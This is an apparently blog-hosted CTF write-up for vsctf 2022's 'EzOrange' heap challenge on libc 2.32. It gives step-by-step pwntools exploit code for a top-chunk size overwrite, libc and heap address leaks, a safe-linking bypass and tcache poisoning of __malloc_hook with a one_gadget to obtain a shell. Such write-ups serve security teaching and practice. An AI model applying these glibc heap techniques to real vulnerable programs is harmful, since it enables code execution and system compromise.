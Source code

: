 ```yaml
---
layout: post
readtime: true
tags: [tcache_poisoning,uaf,sysmalloc,top_chunk,pwn]
---
```


### Attachments : [ezorange](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ezorange) , [libc.so.6](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/libc.so.6), [ld-2.32.so](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ld-2.32.so)
<br>
EzOrange was an interesting heap exploitation challenge from vsctf 2022. This challenge uses libc-2.32. There are two options, `Buy an orange` and `Modify part of orange`. The first option allows us to allocate chunks of size <= 0x1000 and index(Orange number) either 0 or 1. The second option asks for an index(Orange number) and a cell index, prints the byte present at the cell index and then reads a new value for it(that can be controlled by the user). Thus, we have an arbitrary read/ write primitive, one byte at a time. There's no function that would allow us to free a chunk. Let's create some helper functions for malloc, read and write


```
def buy_orange(orange_number,size):
    p.sendlineafter("> ","1") 
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Size: ",str(size))

def modify_orange(orange_number,cell_index,value):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.sendlineafter("New value: ",str(value))

def leak_byte(orange_number,cell_index):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.recvuntil("Current value: ")
    leak = p.recvline()[:-1]
    p.sendlineafter("New value: ",leak)
    return leak

```
Alright, after writing a few helper functions, our goal is to generate a libc leak. This can be done by inserting a chunk into the unsorted bin and then reading the fd or bk, one byte at a time. But, wait a minute, there's no such functionality present in the binary that allows us to free a chunk. So, how do we insert a chunk into the unsorted bin if we can't free it? Well, in this case we can indirectly free a chunk by overwriting the `SIZE` field of the top chunk with a small value followed by large allocations. Whenever `malloc` receives a request that is too large to be serviced by an arena's top chunk or bins, the normal arenas handle it by changing permissions on the pre-mapped heap memory but the main arena invokes the `brk` system call to request memory from the kernel after which `malloc` checks the `SIZE` field to find out whether the newly allocated memory is contiguous to the heap or not. If it is, `malloc` extends the size of the top chunk. If the `SIZE` of the top chunk is overwritten with a small value and a large request to `malloc` is made, `malloc` finds out that the new memory doesn't border the end of the heap because of the fake size field of the top chunk. Since the newly allocated memory is larger, `malloc` starts a new heap right there by freeing the previous top chunk and moving the top chunk pointer to the newly allocated memory. Internally, the `sysmalloc` function is called. But, you cannot overwrite the top_chunk `SIZE` field with any value, there's a check involved in it.

```
static void * sysmalloc (INTERNAL_SIZE_T nb, mstate av)
{
.....
  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));
.....
}
```
The `PREV_INUSE` bit of the top chunk must be set and the chunk should end on a page boundary. 

Alright, so let's start the attack by allocating a chunk
```
buy_orange(0,24)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img1.png"/>

Now, we need to overwrite the `SIZE` of the top chunk with the value `0xd51` followed by a large request. This would free the top chunk and insert it into the unsorted bin. 
```
value = 0xd51
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```
After that, we can leak data from the free chunk, one byte at a time to get a libc leak.

```
libc_leak = b'\x00'
for i in range(33,40):
    leak = leak_byte(0,i)
    leak = int(leak)
    libc_leak += p8(leak)
leak = u64(libc_leak)
libc.address = leak-0x1c5c00
log.critical("Libc base: {}".format(hex(libc.address)))
```
Now, after getting the libc base address, we'll try overwriting `__malloc_hook` with `one_gadget`. This can be done by inserting chunks into the tcache and corrupting the `fd`.
```
# Let's remove the chunk from the unsorted bin
buy_orange(0,0xd28)
buy_orange(0,0x10)
```
We can again overwrite the `SIZE` field of the top chunk and make large allocations to insert a chunk into the tcache. So, let's overwrite the `SIZE` of the top chunk with 0x221 and make a large request to free a chunk and insert into the tcache.

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img2.png"/>
```
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img3.png"/>
Alright, so we've successfully inserted a chunk into the tcache. Now, the only thing that's left is to overwrite `__malloc_hook` with `one_gadget`. 
Let's leak the `fd` field from the free chunk. 
```
heap_leak1 = b''

for i in range(0x20,0x28):
    leak = leak_byte(0,i)
    leak = int(leak)
    heap_leak1 += p8(leak)
heap_leak1 = heap_leak1.ljust(8,b'\x00')
heap_leak1 = u64(heap_leak1)

```
libc2.32 has a check on the count fields in tcache. This can be bypassed by inserting one more chunk into the tcache , which would increase the count field of that particular tcache bin to 2. After that, we can corrupt the `fd` of the most recently freed chunk. 
```
buy_orange(0,0x10)
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)

heap_leak1 += 0x22
```
Now, libc2.32 includes an exploit mitigation known as [safe linking](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/). Basically, it obfuscates the `fd` of chunks that belong to bins that are singly linked.
In order to insert the `__malloc_hook` into the free list, we'll need to xor it with the heap leak.
```
__malloc_hook = __malloc_hook ^ heap_leak1
__malloc_hook = p64(__malloc_hook)
```
Now, we're all set. Let's launch tcache poisoning.
```
for i in range(0x20,0x28):
    modify_orange(0,i,__malloc_hook[i-0x20])
```

So, we've successfully inserted the `__malloc_hook` into the free list. Let's grab it.
<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img4.png">

```

buy_orange(0,0x1f8)
buy_orange(0,0x1f8)
one_gadget = libc.address + 0xceb71
one_gadget = p64(one_gadget)
```
Overwrite `__malloc_hook` with `one_gadget` and call `malloc` to drop a shell
```
for i in range(0,8):
    modify_orange(0,i,one_gadget[i])
buy_orange(0,0x10)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img5.png">

### Complete exploit can be found [here](https://github.com/0xSh4dy/ctf_writeups/blob/master/vsctf2022/EzOrange/ezorange.py)